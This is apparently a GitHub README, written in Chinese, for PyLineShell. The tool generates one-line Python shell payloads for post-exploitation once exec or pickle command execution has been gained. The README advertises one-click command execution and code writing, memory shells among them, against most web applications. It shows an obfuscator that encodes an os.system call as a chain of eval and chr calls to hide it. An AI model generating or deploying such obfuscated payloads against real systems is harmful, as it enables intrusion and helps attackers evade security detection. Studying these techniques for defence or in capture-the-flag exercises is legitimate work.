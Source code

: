 ### [繁体中文](README_ch.md)

<div align="center"> <img src="bugctf.png" width = 135 height = 99 /></div>
<p align="center">PyLineShell: 一个基于Python3的个人Shell Payload库</p>


PyLineShell是一个基于Python3的个人Shell Payload库，适用于在Python项目拿到exec、pickle命令执行点后的渗透阶段. 用户可以调用Python文件来生成需要的Payload.

🔍Payload基本上为简单的一行长代码，主要针对于无法赋值、无法多行输入的命令执行点. 

💡对于绝大部分应用(Web应用、框架)，都可以一键命令执行和一键写入代码

# 快速开始

使用Python生成一个普通版执行命令的Payload

<iframe width="100%" height="400" src="https://github.com/Leeyangee/PyLineShell/raw/main/%E6%BC%94%E7%A4%BA%E8%A7%86%E9%A2%91.mp4" frameborder="0" allowfullscreen></iframe>

使用Python ASCII码代码混淆器

```cmd
PS C:\PyLineShell\工具> python .\ASCII码代码混淆器.py
请输入代码: __import__('os').system('calc')
请输入混淆次数(默认为1): 1
eval(eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(108)+chr(99)+chr(39)+chr(41)))
```

# 鸣谢

在开发的过程中，少不了以下开源/开放代码的支持

* bfengj的Flask内存马代码: https://blog.csdn.net/rfrder/article/details/121005608

<div align="center"> <img src="bugctf.png" width = 135 height = 99 /></div>